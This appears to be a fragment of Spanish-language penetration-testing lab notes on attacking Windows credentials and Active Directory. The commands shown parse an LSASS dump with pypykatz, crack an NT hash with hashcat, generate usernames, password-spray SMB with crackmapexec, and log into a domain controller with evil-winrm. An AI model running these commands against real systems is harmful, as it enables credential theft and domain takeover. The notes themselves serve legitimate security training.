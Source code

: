 ```c
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

#### Cracking the NT Hash with Hashcat

```c
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

# Attacking Active Directory - NTDS.dit




Podemos crear nuestras listas manualmente o usar una `automated list generator`herramienta basada en Ruby, como [Username Anarchy,](https://github.com/urbanadventurer/username-anarchy) para convertir una lista de nombres reales en formatos de nombre de usuario comunes. Una vez que la herramienta se haya clonado en nuestro host de ataque local usando `Git`, podemos ejecutarla contra una lista de nombres reales como se muestra en el siguiente ejemplo de salida:


```c
./username-anarchy -i /home/ltnbob/names.txt 
```

```c
 crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

## Capturing NTDS.dit

#### Connecting to a DC with Evil-WinRM

```c
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#### Checking Local Group Membership

```c
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
*Cert Publishers
*Certificate Service DCOM Access
*Cryptographic Operators
*Denied RODC Password Replication Group
*Distributed COM Users
*DnsAdmins
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Incoming Forest Trust Builders
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Pre-Windows 2000 Compatible Access
*Print Operators
*RAS and IAS Servers
*RDS Endpoint Servers
```